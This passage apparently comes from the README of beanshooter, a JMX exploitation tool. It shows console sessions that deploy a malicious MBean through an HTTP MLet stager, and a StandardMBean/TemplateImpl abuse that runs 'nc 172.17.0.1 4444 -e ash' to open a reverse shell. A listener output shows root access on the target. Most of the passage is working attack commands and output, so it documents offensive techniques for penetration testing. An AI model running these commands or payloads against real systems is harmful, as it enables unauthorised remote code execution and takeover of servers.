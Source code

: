 ```console
[qtc@devbox ~]$ beanshooter tonka deploy 172.17.0.2 9010 --stager-url http://172.17.0.1:8888 --no-stager
[qtc@devbox ~]$ beanshooter stager 172.17.0.1 8888 tonka
[+] Creating HTTP server on: 172.17.0.1:8888
[+] Creating MLetHandler for endpoint: /
[+] Creating JarHandler for endpoint: /93691b8bae4143f087f7a3123641b20d
[+] Starting HTTP server.
[+] 
[+] Press Enter to stop listening.
[+]
[+] Incoming request from: iinsecure.example
[+] Requested resource: /
[+] Sending mlet:
[+]
[+] 	Class:     de.qtc.beanshooter.tonkabean.TonkaBean
[+] 	Archive:   93691b8bae4143f087f7a3123641b20d
[+] 	Object:    MLetTonkaBean:name=TonkaBean,id=1
[+] 	Codebase:  http://172.17.0.1:8888
[+]
[+] Incoming request from: iinsecure.example
[+] Requested resource: /93691b8bae4143f087f7a3123641b20d
[+] Sending jar file with md5sum: 6568ffb2934cb978dbd141848b8b128a
```

#### Standard

The `standard` action deploys a *StandardMBean* that implements the `TemplateImpl` class to achieve
different targets. This technique was identified by [Markus Wulftange](https://twitter.com/mwulftange)
and *beanshooter* implements it to allow command execution, file upload and *TonkaBean* deployment.

```console
[qtc@devbox ~]$ beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+] 	Deplyoing MBean: StandardMBean
[+] 	MBean with object name de.qtc.beanshooter:standard=3873612041699 was successfully deployed.
[+]
[+] 	Caught NullPointerException while invoking the newTransformer action.
[+] 	This is expected bahavior and the attack most likely worked :)
[+]
[+] 	Removing MBean with ObjectName de.qtc.beanshooter:standard=3873612041699 from the MBeanServer.
[+] 	MBean was successfully removed.
...
[qtc@devbox ~]$ nc -vlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:40033.
id
uid=0(root) gid=0(root) groups=0(root)
```
